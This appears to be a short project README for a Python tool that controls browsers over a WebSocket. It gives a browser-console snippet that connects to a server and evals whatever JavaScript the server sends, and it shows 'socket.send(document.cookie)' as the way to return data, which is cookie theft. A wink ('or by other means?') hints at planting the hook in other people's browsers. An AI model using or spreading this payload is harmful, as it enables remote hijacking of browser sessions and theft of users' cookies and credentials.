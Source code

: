 ## Usage
If you run `python main.py`, then run in the CLI:

`>listen`

It will listen for connections. 
To connect a browser, run this in the console (or by other means? :) ):
```
var socket = new WebSocket('ws://localhost:1337', 'chat'); 
socket.onmessage = function (event) {
    eval(event.data);
}
```

Then, in the CLI:

`control`

`[the number label of the session you wish to control]`

Then you will be prompted to run any Javascript you want.
To send data back to the server, you can use `socket.send`. E.g.:

```
socket.send(document.cookie);
```
